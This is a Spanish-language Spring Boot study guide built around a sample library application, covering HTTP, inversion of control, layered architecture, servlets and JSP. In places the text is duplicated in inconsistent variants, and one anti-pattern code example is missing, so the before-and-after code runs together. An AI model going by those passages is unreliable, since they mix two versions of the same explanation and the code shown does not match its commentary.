







Guía Integral de Estudio: Spring Boot & Ecosistema Backend
Bienvenido al manual técnico y cuaderno de estudio interactivo estructurado en 6 bloques temáticos y 15 temas de profundización técnica.
Este recurso consolida todos los conceptos teóricos, discusiones de diseño, fragmentos de código ejecutable y pruebas tipo test con estándares de desarrollo empresarial en Java y Spring Boot.
Utiliza las casillas de verificación interactivas al inicio de cada bloque temático para registrar tu avance. El progreso se almacena automáticamente en tu navegador. Consulta los fragmentos de código para entender la implementación real en Java y resuelve el test interactivo al final de cada bloque conceptual.
Estructura y Ruta de Aprendizaje
El contenido está organizado de forma progresiva en 6 Bloques Temáticos y 15 Temas que cubren desde los fundamentos del protocolo HTTP y la Inversión de Control (IoC), hasta la arquitectura en capas, persistencia avanzada, testing automatizado y despliegue con Docker.
Bloque
Temas Incluidos
Enfoque Técnico y Competencias Clave
Bloque 1 Fundamentos
Tema 1 a 4
Arquitectura Web (MPA vs SPA), protocolo HTTP/HTTPS, serialización JSON con Jackson, ciclo de vida Maven, Lombok, Records, Inversión de Control (IoC), Contenedor de Beans y Desarrollo Basado en Aspectos (Spring AOP).
Bloque 2 Core Spring Boot
Tema 5 a 8
Principios SOLID, autoconfiguración, ciclo del DispatcherServlet en Spring MVC, controladores REST, transacciones ACID, arquitectura Hibernate (SessionFactory/Session), clases mapeadas (@Embeddable), ciclo de vida de objetos (4 estados), mapeo de herencia (@Inheritance) y operaciones CRUD.
Bloque 3 Persistencia & DTOs
Tema 9 y 10
Mapeo de asociaciones (@OneToOne, @OneToMany, @ManyToOne, @ManyToMany con tablas de unión), consultas avanzadas (JPQL, SQL nativo, Criteria API), optimización en Hibernate (solución N+1 con JOIN FETCH, @EntityGraph, Caché L1/L2, batching) y desacoplamiento con DTOs.
Bloque 4 Calidad & Operaciones
Tema 11 y 12
Validaciones declarativas (Bean Validation), manejo global de excepciones, observabilidad con SLF4J, perfiles, documentación OpenAPI, monitoreo con Spring Boot Actuator y consumo de APIs con RestClient.
Validaciones declarativas (Bean Validation), manejo global de excepciones, observabilidad con SLF4J, perfiles, capacidades específicas (@ConfigurationProperties, Application Events), documentación OpenAPI, monitoreo con Spring Boot Actuator y consumo de APIs con RestClient.
Bloque 5 Testing Automatizado
Tema 13 y 14
Pirámide de testing, pruebas unitarias con JUnit 5 y Mockito, pruebas de integración web con @WebMvcTest / @SpringBootTest, y técnicas profesionales de depuración y diagnóstico.
Bloque 6 Seguridad & Docker
Tema 15
Seguridad stateless con JWT, hashing seguro con BCrypt, control RBAC (@PreAuthorize), contenedorización Docker multi-stage y microservicios síncronos vs asíncronos (Kafka / RabbitMQ).
📚 Caso Práctico Conductor: Plataforma BiblioTech
Uno de los mayores obstáculos al aprender arquitectura backend por primera vez es encontrarse con fragmentos aislados y desconectados (un ejemplo bancario por aquí, un pedido por allá y un usuario por otro lado). En esta guía, cada concepto teórico se aplica y se demuestra sobre una única aplicación real: la plataforma BiblioTech (Sistema Integral de Biblioteca Digital & Catálogo Editorial).
A lo largo de los 6 bloques temáticos, verás nacer el sistema desde sus cimientos: cómo viajan las peticiones HTTP a su API, cómo se modelan sus libros y autores en la base de datos, cómo se ejecutan transacciones seguras de préstamo, cómo se protegen los endpoints con JWT y cómo se empaqueta el microservicio en Docker.
1. Mapa del Dominio de BiblioTech: Entidades y Relaciones
El dominio de BiblioTech está diseñado para cubrir de manera natural todas las situaciones a las que te enfrentarás en proyectos empresariales reales:
Entidad / Componente
Tipo de Mapeo / Rol
Atributos Clave y Propósito en BiblioTech
Autor
Entidad JPA (@Entity, Lado Inverso)
id, nombre, nacionalidad, biografia. Contiene la colección bidireccional List<Libro> libros con @OneToMany(mappedBy = "autor").
Libro
Entidad JPA Central (Lado Propietario)
id, isbn (único), titulo, precio, sinopsis (@Lob), estado (@Enumerated), version (@Version), relación @ManyToOne con Autor y @ManyToMany con Categoria.
Categoria
Entidad JPA (Catálogo temático)
id, nombre (Novela, Ciencia Ficción, Tecnología), descripcion. Vinculada a Libro mediante la tabla de unión física libros_categorias.
DimensionesLibro
Objeto de Valor (@Embeddable)
altoCm, anchoCm, grosorCm, pesoGramos. Se incrusta directamente (@Embedded) como columnas dentro de la tabla de libros sin requerir una tabla adicional.
Publicacion
Herencia Polimórfica (@Inheritance)
Clase base abstracta con estrategia JOINED. Sus subclases concretas son:
• LibroFisico: numeroPaginas, ubicacionEstanteria, ejemplaresDisponibles.
• LibroDigital: tamanoArchivoMb, formatoDescarga (EPUB/PDF), tieneDrm.
PrestamoLibro
Entidad Transaccional ACID
id, fechaPrestamo, fechaDevolucionLimite, lectorId, referencia a Libro. Gestionado con @Transactional para asegurar que el descuento de ejemplares y el registro del préstamo ocurran de forma atómica.
2. Hoja de Ruta Práctica: Qué Construiremos en Cada Bloque
Bloque
Módulo Desarrollado en BiblioTech
Puesta en Práctica Concreta
Bloque 1
Fundamentos, HTTP y Core
Peticiones HTTP a /api/v1/libros, Servlets primitivos de catálogo, serialización JSON de libros con Jackson, dependencias en Maven, Lombok en Libro y prevención del bucle infinito JPA con Autor. Inversión de Control para enviar notificaciones a lectores por Email/SMS.
Bloque 2
Arquitectura y Persistencia Core
Controlador LibroController con respuestas semánticas (ResponseEntity), capa LibroService inyectada por constructor, transacciones ACID para prestar libros y mapeo de entidades con Hibernate.
Bloque 3
Relaciones Avanzadas y DTOs
Asociaciones 1:N y N:M, consultas JPQL por autor y precio, solución al problema N+1 con JOIN FETCH y contratos seguros con LibroRequestDTO y LibroResponseDTO usando Java Records.
Bloque 4
Calidad, Observabilidad y RestClient
Validaciones de ISBN y precio con Bean Validation, captura global de LibroNotFoundException con @RestControllerAdvice, documentación OpenAPI Swagger y cliente OpenLibraryClient con RestClient.
Bloque 5
Testing Automatizado
Pruebas unitarias de LibroService con dobles simulados (Mockito) y pruebas de integración web de los endpoints con @WebMvcTest y MockMvc.
Bloque 6
Seguridad y Despliegue Cloud
Control de acceso con JWT (lectores solo leen; bibliotecarios crean/editan libros con @PreAuthorize), empaquetado ligero en Docker y emisión de eventos asíncronos con Kafka al prestar un libro.
3. 💡 La Guía del Principiante: 5 Conceptos Clave que Debes Saber Antes de Empezar
Si es la primera vez que estudias desarrollo backend profesional, estos 5 conceptos forman el mapa mental indispensable sobre el que se apoya toda la arquitectura:
¿Qué es un Servidor Backend y por qué no lo hace todo el navegador?
El navegador web (Frontend) se ejecuta en el ordenador del usuario y puede ser manipulado fácilmente abriendo las herramientas de desarrollador (F12). Si el navegador se conectara directamente a la base de datos o calculara los precios y saldos, cualquier usuario malintencionado podría alterar los valores. El Backend es un entorno seguro, controlado por la empresa, donde residen las reglas de negocio, la lógica confidencial y el acceso restringido a los datos.
¿Qué es una API REST y por qué hablamos en JSON?
Una API REST es como la ventanilla de atención al público de un organismo oficial: tiene una serie de trámites bien definidos (URLs como /api/v1/libros) a los que llamamos usando acciones universales (Verbos HTTP como GET, POST, PUT, DELETE). Para que cualquier aplicación (una web en React, una app móvil en Flutter o un microservicio en Python) se entienda con nuestro backend en Java, intercambiamos información en JSON, un formato de texto universal basado en parejas de "clave": "valor".
¿Por qué usamos un Framework (Spring Boot) en lugar de Java básico?
Construir una aplicación web en Java estándar "puro" implicaría configurar manualmente un servidor HTTP, gestionar hilos de ejecución concurrentes, escribir cientos de líneas de código JDBC para abrir y cerrar conexiones a la base de datos, y crear a mano cada objeto. Spring Boot es como un chasis de ingeniería prediseñado: incluye un servidor web integrado (Tomcat), autoconfigura la conexión a la base de datos y conecta automáticamente todas las piezas del sistema mediante Inversión de Control (IoC).
¿Qué es un ORM (Hibernate / JPA) y por qué lo necesitamos?
En Java trabajamos con Objetos organizados en memoria (un libro tiene un autor, el autor tiene una lista de libros, etc.). En cambio, las bases de datos relacionales como PostgreSQL u Oracle trabajan con Tablas bidimensionales de filas y columnas vinculadas por números de clave foránea. Esta diferencia se conoce como el desajuste de impedancia objeto-relacional. JPA/Hibernate actúa como un traductor simultáneo automático: lee una fila de la tabla SQL y la convierte en un objeto Java en milisegundos, y cuando modificas el objeto en Java, genera automáticamente las sentencias UPDATE o INSERT necesarias.
¿Por qué separamos la aplicación en 3 Capas (Controlador → Servicio → Repositorio)?
Imagina un restaurante de alta cocina:
Controlador (El Camarero): Recibe al cliente, toma la comanda, comprueba que los datos básicos sean coherentes y la traslada a la cocina. No cocina ni entra a la despensa.
Servicio (El Chef): Contiene la maestría culinaria (reglas de negocio). Decide los tiempos, verifica si hay ingredientes suficientes, ejecuta la receta y coordina la entrega.
Repositorio (El Encargado del Almacén): Es el único con llave de la despensa (Base de Datos). El chef le pide "tráeme el ingrediente X" o "guarda este paquete Y".
Esta separación garantiza que si mañana cambias de base de datos o de formato de presentación, las reglas de negocio (el chef) permanezcan intactas y sean fáciles de probar.
Fundamentos Filosóficos y Paradigma Arquitectónico
Antes de escribir una sola línea de código en Spring Boot, es indispensable comprender la filosofía que motiva las decisiones arquitectónicas del desarrollo backend moderno.
1.1 Los Tres Niveles de Abstracción en Software
Construir una aplicación no es solo unir código que compile. El desarrollo profesional opera en tres niveles complementarios:
Nivel 1 — Código: La calidad intrínseca de cada método. Nombres significativos, funciones de responsabilidad única, ausencia de efectos colaterales y legibilidad.
Nivel 2 — Diseño: Cómo interactúan las clases entre sí. Aplicación de patrones de diseño (Factory, Builder, Singleton, Strategy) y principios SOLID.
Nivel 3 — Arquitectura: La estructura macroscópica del sistema. Cómo se empaquetan los módulos, cómo fluyen los datos y qué fronteras estrictas delimitan cada componente.
1.2 El Pecado Original: El Acoplamiento por la palabra clave new
En la programación orientada a objetos convencional, cuando la clase A necesita utilizar la clase B, es común instanciarla directamente:
// ❌ ANTIPATRÓN: Acoplamiento fuerte directo
// ✅ PATRÓN: dependencia abstraída e inyectada por Springpublic classPrestamoLibroService {
private finalNotificacionService notificacionService;
publicPrestamoLibroService(
NotificacionService notificacionService) {
this.notificacionService = notificacionService;
}
public voidformalizarPrestamo(
Libro libro,
Usuario lector) {
// ... lógica de validación de ejemplares disponibles
notificacionService.enviar(
lector.getEmail(),
"Préstamo confirmado: "
+ libro.getTitulo());
}
}
¿Por qué esto representa un problema grave en entornos empresariales?
¿Por qué esto representa un problema grave en entornos empresariales como BiblioTech?
Falta de abstracción: PedidoService conoce la clase concreta exacta. No puede trabajar con una interfaz general NotificacionService.
Imposibilidad de testing unitario puro: No se puede probar la lógica de procesarPedido sin intentar enviar un email real por la red, porque no podemos sustituir emailService por un objeto simulado (Mock).
Multiplicación de instancias innecesarias: Si 50 servicios usan notificaciones, crearemos 50 instancias de un servicio que en realidad no tiene estado interno y podría ser compartido.
Falta de abstracción: PrestamoLibroService conoce la clase concreta exacta. Si mañana la biblioteca decide notificar por SMS o WhatsApp, habría que modificar y recompilar la lógica de negocio.
Imposibilidad de testing unitario puro: No se puede probar la lógica de formalizarPrestamo sin intentar enviar un email real por la red, porque no podemos sustituir emailService por un objeto simulado (Mock).
Multiplicación de instancias innecesarias: Si 50 servicios usan notificaciones, crearemos 50 instancias de un servicio que en realidad no tiene estado interno y podría ser compartido como un Singleton.
"Don't call us, we'll call you" (No nos llames a nosotros, nosotros te llamaremos a ti).
En lugar de que tu código tome la iniciativa de crear sus dependencias con new, cedes el control a un Contenedor de Inversión de Control (en Spring, el ApplicationContext). Tú únicamente declaras qué necesitas a través del constructor, y el framework se encarga de instanciarlo y suministrártelo.
1.3 La Regla de Oro de las Dependencias
En una arquitectura en capas tradicional, la aplicación se divide en tres responsabilidades estancas:
Capa de Presentación: Interactúa con el mundo exterior (recibe HTTP, serializa/deserializa JSON). En Spring Boot: clases anotadas con @RestController.
Capa de Negocio: El cerebro del sistema. Contiene las reglas, cálculos, políticas de descuento y validaciones lógicas. En Spring Boot: clases anotadas con @Service.
Capa de Datos (Persistencia): Comunicación con el motor relacional (SQL/BBDD). En Spring Boot: interfaces anotadas con @Repository (o extensiones de JpaRepository).
Presentación → depende de → Negocio → depende de → Datos La capa de Datos JAMÁS debe conocer ni llamar a la capa de Negocio. La capa de Negocio JAMÁS debe conocer cómo se presenta la información al usuario (desconoce HTTP, JSON o HTML). Si la Presentación se salta a Negocio para consultar directamente Datos, se rompe el encapsulamiento y las reglas de negocio quedan desprotegidas.
1.4 Arquitectura Concéntrica y Hexagonal (Puertos y Adaptadores)
Cuando los sistemas evolucionan, la arquitectura en capas clásica presenta una limitación: la capa de Negocio termina acoplada a la tecnología de base de datos (por ejemplo, importando librerías de JPA o Hibernate dentro de sus clases de dominio).
Para resolver esto, Alistair Cockburn introdujo la Arquitectura Hexagonal (Puertos y Adaptadores), conceptualmente alineada con la Clean Architecture de Robert C. Martin:

Figura 1: Representación concéntrica del software. El Dominio y las reglas de Negocio ocupan el núcleo, protegidos del exterior por capas concéntricas.
En este paradigma:
El Dominio (Centro Inmaculado): Es código Java puro. No contiene importaciones de Spring, ni de Hibernate, ni anotaciones de base de datos. Define cómo funciona el negocio real (ej. cómo se calcula el interés de una hipoteca).
Puertos de Entrada (Driving Ports): Interfaces que exponen qué operaciones permite realizar el dominio (ej. CrearPedidoUseCase).
Puertos de Salida (Driven Ports): Interfaces que declaran qué necesita el dominio del exterior (ej. PedidoRepositoryPort, NotificacionPort).
Adaptadores Primarios (Entrada): Controladores REST, comandos de consola (CLI), mensajes de colas Kafka o tests. Traducen la petición externa e invocan al puerto de entrada.
Adaptadores Secundarios (Salida): Implementaciones concretas de los puertos de salida (ej. un repositorio que usa Spring Data JPA + PostgreSQL, un cliente HTTP que llama a SendGrid para emails).
Si mañana decides cambiar PostgreSQL por MongoDB, o cambiar Spring Boot por Quarkus, el 100% de la lógica de negocio permanece intacta, porque solo necesitas cambiar el adaptador externo, sin tocar una sola regla del dominio central.
1.5 El Paradigma Stateless (Sin Estado) y la Concurrencia Web
En los albores de la web (modelo MPA tradicional), los servidores mantenían una sesión en memoria para cada usuario (HttpSession). Si 10.000 usuarios estaban conectados, el servidor retenía 10.000 objetos en su memoria RAM.
En las aplicaciones web modernas y APIs RESTful:
HTTP es Stateless: Cada petición HTTP es totalmente autónoma. El servidor no recuerda la petición anterior.
Beans de Spring son Singletons Stateless: Spring crea una única instancia de cada @Service y @RestController para toda la aplicación. Un único objeto atiende peticiones de miles de clientes en hilos paralelos de Tomcat.
Regla de Hilos (Thread-Safety): Como los Beans son compartidos por múltiples hilos simultáneamente, jamás deben guardar datos específicos de un usuario en variables de instancia. Los datos viajan exclusivamente a través de los argumentos de los métodos.
Autenticación delegada: El estado de identidad del usuario no reside en el servidor; el cliente envía un token criptográfico (JWT) en la cabecera Authorization en cada petición.
Bloque 1: Fundamentos y Ecosistema

Figura 2: Contenido troncal del Bloque 1 — Arquitectura, Protocolo HTTP, JSON, Ecosistema Java, Maven, Lombok y Fundamentos de Spring.
Objetivos de Aprendizaje — Bloque 1
Dominar la diferencia entre MPA y SPA, y las 3 capas tradicionales.Comprender la estructura de petición/respuesta HTTP y los códigos 2xx, 4xx y 5xx.Entender cómo funciona HTTPS, TLS y el Handshake con certificados.Conocer los 6 tipos de datos JSON y la sintaxis estricta.Utilizar Jackson ObjectMapper para serialización y deserialización de colecciones.Conocer la evolución histórica: de J2EE/EJBs a Jakarta EE y Spring Framework.Entender el ciclo de vida de Maven y la configuración en pom.xml.Aplicar anotaciones Lombok y prevenir el bug de @Data en entidades JPA.Conocer el rol de Java Records como DTOs inmutables.Comprender IoC, DI por constructor y el ciclo de vida de los Beans Singleton.Resolver ambigüedades de Beans con @Primary y @Qualifier.
📖 Conceptos Clave del Bloque 1 — Fundamentos y Ecosistema
Concepto
Definición Técnica y Ejemplo Práctico
Arquitectura Web (MPA vs SPA)
MPA (Multi-Page Application): cada interacción recarga la página solicitando nuevo HTML al servidor (renderizado con JSP/Thymeleaf). SPA (Single-Page Application): carga una única página y actualiza dinámicamente el DOM consumiendo APIs REST en formato JSON. Ejemplo: fetch('/api/v1/libros') retorna [{"id":1,"titulo":"Clean Code"}] y el cliente actualiza solo la tabla sin recargar la web.
Protocolo HTTP / HTTPS
Protocolo de comunicación cliente-servidor sin estado (*stateless*). HTTPS encapsula los mensajes HTTP dentro de una capa criptográfica TLS (Transport Layer Security) con certificados de Autoridad (CA), impidiendo la interceptación de contraseñas y tokens. Ejemplo: POST /api/pedidos HTTPS/1.1 viaja cifrado por el puerto 443; un sniffer en la red WiFi solo ve tráfico binario ininteligible.
Ejemplo: POST /api/v1/libros HTTPS/1.1 viaja cifrado por el puerto 443; un sniffer en la red WiFi solo ve tráfico binario ininteligible.
Programación Web con Java (Servlets, JSP, MVC y EJB)
Ecosistema base de Jakarta EE: HttpServlet atiende peticiones en hilos concurrentes; JSP genera vistas dinámicas compiladas por Jasper; el patrón MVC separa Modelo, Vista y Controlador; y los EJBs gestionaban lógica transaccional corporativa antes de Spring. Ejemplo: @WebServlet("/catalogo") public class CatalogoServlet extends HttpServlet { void doGet(...) { ... } }Ejemplo: @WebServlet("/catalogo") public class CatalogoLibrosServlet extends HttpServlet { void doGet(...) { ... } }
Serialización JSON con Jackson
Proceso bidireccional mediante ObjectMapper: serialización (Java Object → JSON String vía writeValueAsString) y deserialización (JSON String → Java Object vía readValue). Ejemplo: mapper.readValue(json, new TypeReference<List<LibroDTO>>() {}) preserva los tipos genéricos frente al Type Erasure de la JVM.
Ciclo de Vida de Maven
Secuencia estandarizada de fases de construcción declarada en pom.xml: validate → compile → test → package → verify → install. Ejemplo: mvn clean package compila las clases con javac, ejecuta las pruebas de Surefire y empaqueta el binario ejecutable app.jar en /target.
Lombok
Librería de procesamiento de anotaciones en tiempo de compilación que inyecta código repetitivo (getters, setters, constructores, builder) en el bytecode. Ejemplo: @Getter @Setter @Builder public class Cliente { private Long id; }. Regla de oro: Prohibido @Data en entidades JPA por riesgo de bucle infinito (StackOverflowError).
Ejemplo: @Getter @Setter @Builder public class Libro { private Long id; }. Regla de oro: Prohibido @Data en entidades JPA por riesgo de bucle infinito (StackOverflowError).
Java Records
Estructuras de datos inmutables nativas (Java 16+) ideales para DTOs. Generan de forma compacta constructor canónico, getters directos, equals(), hashCode() y toString(). Ejemplo: public record LibroDTO(Long id, String titulo, Double precio) {} (acceso mediante libroDTO.titulo()).
Inversión de Control (IoC)
Principio arquitectónico donde el flujo de ejecución y la creación de dependencias se transfieren a un contenedor externo, en lugar de instanciarse manualmente con new. Ejemplo: PedidoService declara que necesita Notificador en su constructor; Spring IoC busca la implementación y se la suministra al instanciarla.
Ejemplo: PrestamoLibroService declara que necesita NotificacionService en su constructor; Spring IoC busca la implementación y se la suministra al instanciarla.
Contenedor de Beans (ApplicationContext)
Motor central de Spring que crea, configura y administra el ciclo de vida de los componentes anotados (Beans: @Component, @Service, @Repository), garantizando instancias Singleton en memoria. Ejemplo: @Service public class FacturacionService {} es registrado como bean y compartido automáticamente por toda la aplicación.
Ejemplo: @Service public class LibroService {} es registrado como bean y compartido automáticamente por toda la aplicación.
Desarrollo Basado en Aspectos (Spring AOP)
Técnica que intercepta la ejecución de métodos mediante proxys dinámicos para desacoplar preocupaciones transversales (transacciones, logs, seguridad) de la lógica de negocio. Ejemplo: La anotación @Transactional abre la conexión antes del método, ejecuta commit si finaliza con éxito o rollback si lanza una excepción runtime.
Tema 1 — Arquitectura Web y Protocolo HTTP / HTTPS
Toda API REST en Spring Boot opera como un servicio sobre el protocolo HTTP/HTTPS. Este tema desglosa la anatomía exacta de los mensajes de red —peticiones, respuestas, cabeceras, códigos de estado y apretón de manos TLS— para comprender cómo viajan los datos entre el cliente y el servidor antes de escribir código de negocio.
Si nunca has trabajado con redes, imagina que una petición HTTP es como enviar una carta por correo postal:
La URL (Ruta): Es la dirección del buzón de destino (ej. /api/v1/libros/42 para referirse al libro número 42).
El Verbo HTTP: Es la acción que le pides al cartero: GET (enséñamelo), POST (guarda este libro nuevo en el almacén), PUT (reemplaza este libro por otro) o DELETE (destrúyelo).
Las Cabeceras (Headers): Son las pegatinas en el exterior del sobre: qué idioma hablas, tu pase de seguridad (Authorization: Bearer ...) y qué formato de datos entiendes (Accept: application/json).
El Cuerpo (Body): Es la carta doblada dentro del sobre. Un GET no lleva carta (solo pide datos), pero un POST lleva el objeto JSON del libro que quieres guardar.
El Código de Estado (Status Code): Es el acuse de recibo que te devuelve el cartero: 200 OK (recibido con éxito), 201 Created (creado y guardado), 404 Not Found (ese buzón o libro no existe) o 500 Internal Server Error (el cartero tropezó en el servidor).
Toda respuesta HTTP comienza con un código de estado numérico de 3 dígitos organizado en 5 familias estándar:
1xx (Informativo), 2xx (Éxito), 3xx (Redirección), 4xx (Error del Cliente) y 5xx (Error del Servidor).
Puedes consultar la lista exhaustiva de todos los códigos estandarizados con los más habituales resaltados en negrita en el Catálogo Completo de Códigos de Estado HTTP de la sección de referencia.
1.3 Los 5 Verbos HTTP en diseño RESTful
Verbo
Semántica
Idempotente
Código de éxito habitual
Ejemplo de Endpoint
GET
Lectura y consulta sin efectos colaterales
Sí
200 OK
GET /api/v1/libros/42
POST
Creación de un recurso subordinado
No
201 Created
POST /api/v1/libros
PUT
Reemplazo total de la entidad
Sí
200 OK o 204 No Content
PUT /api/v1/libros/42
PATCH
Actualización parcial de campos específicos
No
200 OK
PATCH /api/v1/libros/42
DELETE
Eliminación definitiva del recurso
Sí
204 No Content
DELETE /api/v1/libros/42
1.4 HTTPS: ¿Por qué HTTP en texto plano ya no es viable?
HTTP viaja por el puerto 80 en texto plano. En cualquier salto de red (un router WiFi de cafetería, un proxy o un ISP), un atacante con un sniffer de paquetes (como Wireshark) puede interceptar contraseñas y tokens en texto legible.
HTTPS (puerto 443) encapsula HTTP dentro de una capa criptográfica TLS (Transport Layer Security). Mediante un Handshake inicial con certificados emitidos por Autoridades Certificadoras (CA), garantiza autenticidad, confidencialidad e integridad.
Tema 2 — Programación Web con Java (Servlets, JSP, MVC, EJB) y Formato JSON
Antes de la llegada de Spring Boot, el desarrollo web empresarial en Java se fundamentó sobre la especificación Jakarta Servlet, páginas dinámicas JSP, el patrón arquitectónico MVC y los Enterprise Java Beans (EJB). Este tema desglosa los componentes core de Java Web, sus vulnerabilidades y mitigaciones de seguridad, la crisis de sobreingeniería de J2EE que motivó el nacimiento de Spring, y el intercambio de datos moderno con JSON y Jackson.
2.1 Programación Web con Java: Trabajo con Servlets
Un Servlet es una clase Java gestionada por un Contenedor Web (Servlet Container) —como Apache Tomcat, Eclipse Jetty o Red Hat WildFly— encargada de interceptar peticiones entrantes por red y generar respuestas dinámicas. En la especificación moderna (Jakarta EE 10+), los servlets HTTP heredan de jakarta.servlet.http.HttpServlet.
El Ciclo de Vida del Servlet (Gestionado por el Contenedor):
Carga e Inicialización — init(ServletConfig config): El contenedor instancia el Servlet y ejecuta este método una única vez en todo el ciclo de vida de la aplicación. Puede configurarse para ejecutarse en el arranque del servidor (loadOnStartup >= 0) o de forma diferida ante la primera petición. Se utiliza para cargar recursos pesados, leer parámetros de configuración o inicializar conexiones.
Atención Concurrente de Peticiones — service(ServletRequest req, ServletResponse res): Por cada petición entrante, el contenedor asigna un hilo del Thread Pool y llama a service(). Este método inspecciona el verbo HTTP y delega automáticamente en los métodos especializados: doGet(), doPost(), doPut(), doDelete(), doOptions() o doHead().
Por diseño, el contenedor mantiene una única instancia singleton del Servlet para atender a todos los clientes concurrentes. Por lo tanto, NUNCA almacenes estado de usuario en variables de instancia de la clase. Toda variable mutable compartida generará condiciones de carrera críticas (race conditions). El estado debe residir exclusivamente dentro de las variables locales del método o en la sesión HTTP.
Destrucción y Cierre — destroy(): Invocado una sola vez cuando el contenedor detiene la aplicación o se apaga el servidor. Permite liberar recursos, cerrar descriptores de archivos y asegurar un apagado ordenado (graceful shutdown).
Interacción con HttpServletRequest y HttpServletResponse:
HttpServletRequest: Proporciona acceso a los parámetros de query y formulario (req.getParameter("id")), cabeceras HTTP (req.getHeader("Authorization")), atributos de ámbito de petición (req.getAttribute("usuario")), sesión activa (req.getSession(true)) y cookies (req.getCookies()).
HttpServletResponse: Permite configurar el código de estado (res.setStatus(HttpServletResponse.SC_OK)), tipos de contenido MIME (res.setContentType("application/json;charset=UTF-8")), cabeceras de respuesta (res.setHeader("Cache-Control", "no-cache")) y obtener el flujo de salida (PrintWriter out = res.getWriter()).
Mapeo de Rutas: web.xml vs @WebServlet:
Históricamente, los servlets se declaraban en el descriptor de despliegue WEB-INF/web.xml. A partir de Servlet 3.0, el estándar incorporó la anotación declarativa @WebServlet, eliminando por completo la necesidad de ficheros XML:
package com.libreria.web;
import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.WebServlet;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;
// Mapeo declarativo de ruta sin necesidad de web.xml@WebServlet(name = "LibroServlet", urlPatterns = {"/api/servlets/libros"}, loadOnStartup = 1)
public classLibroServletextendsHttpServlet {
@Overridepublic voidinit() throwsServletException {
// Se ejecuta una única vez en el arranque de la aplicaciónSystem.out.println("[LibroServlet] Inicializado con éxito en el contenedor.");
}
@Overrideprotected voiddoGet(HttpServletRequest req, HttpServletResponse res)
throwsServletException, IOException {
// 1. Lectura de parámetros de la consultaString formato = req.getParameter("formato");
// 2. Configuración de cabeceras y código de estado
res.setStatus(HttpServletResponse.SC_OK); // 200 OK
res.setContentType("application/json;charset=UTF-8");
// 3. Escritura en el flujo de respuestaPrintWriter out = res.getWriter();
out.print("""
{"id": 1, "titulo": "Clean Architecture", "autor": "Robert C. Martin", "precio": 35.0}
""");
out.flush();
}
@Overrideprotected voiddoPost(HttpServletRequest req, HttpServletResponse res)
throwsServletException, IOException {
String titulo = req.getParameter("titulo");
if (titulo == null || titulo.isBlank()) {
res.sendError(HttpServletResponse.SC_BAD_REQUEST, "El título es obligatorio");
return;
}
res.setStatus(HttpServletResponse.SC_CREATED); // 201 Created
res.setContentType("application/json;charset=UTF-8");
res.getWriter().write("{\"mensaje\": \"Libro creado satisfactoriamente\"}");
}
@Overridepublic voiddestroy() {
System.out.println("[LibroServlet] Destruido al detener el contenedor.");
}
}
2.2 Programación Web con Java: Introducción a JSP
JavaServer Pages (JSP) surgió para resolver el problema de mezclar maquetación HTML dentro de código Java mediante instrucciones out.println("<div>...</div>"). JSP invierte la perspectiva: es un documento de texto (habitualmente HTML/XML) en el que se intercalan fragmentos dinámicos procesados en el servidor antes de enviar la respuesta al navegador.
Ciclo de Traducción y Compilación Jasper:
Un archivo .jspno es interpretado en cada petición. El motor JSP del contenedor (como Apache Jasper en Tomcat) implementa un ciclo de vida transparente de alta eficiencia:
Traducción a Servlet (JSP → Java): En la primera petición que recibe una página (ej. catalogo.jsp), el motor traduce el fichero JSP a un código fuente Java nativo (un servlet denominado típicamente catalogo_jsp.java que extiende HttpJspBase).
Compilación a Bytecode (Java → Class): Jasper compila el código generado creando catalogo_jsp.class.
Carga y Ejecución en Memoria: El servlet compilado se carga en la JVM y ejecuta sus métodos de ciclo de vida (jspInit(), _jspService(), jspDestroy()). Las siguientes peticiones se ejecutan directamente en memoria a velocidad nativa de Servlet. Si el archivo .jsp se edita en disco, Jasper detecta la marca de tiempo y re-traduce la página automáticamente.
Elementos de Sintaxis en JSP:
Directivas (<%@ ... %>): Instrucciones globales para el compilador JSP. Las más importantes son:
<%@ page contentType="text/html;charset=UTF-8" language="java" %>: Configura el tipo MIME y la codificación de caracteres.
